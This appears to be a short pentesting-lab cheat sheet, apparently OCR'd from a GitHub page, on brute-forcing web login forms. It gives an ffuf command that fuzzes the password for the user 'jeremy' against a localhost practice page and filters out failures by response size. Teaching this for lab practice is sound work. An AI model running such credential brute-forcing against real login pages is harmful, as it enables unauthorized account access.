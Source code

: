 ## **Overview**

Authentication are used against login pages, applications and services

## **Practical**

### **FFUF**

- Attempt to get an invalid login message e.g (_Invalid password, Try again, Wrong Credentials_)
- Use the following FFUF syntax to bruteforce

```bash
ffuf -w passwords.txt -X POST -d "username=jeremy&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://localhost/labs/a0x01.php -fs 1814
```

> **Note :** If you get long output filter by size, `-fs` 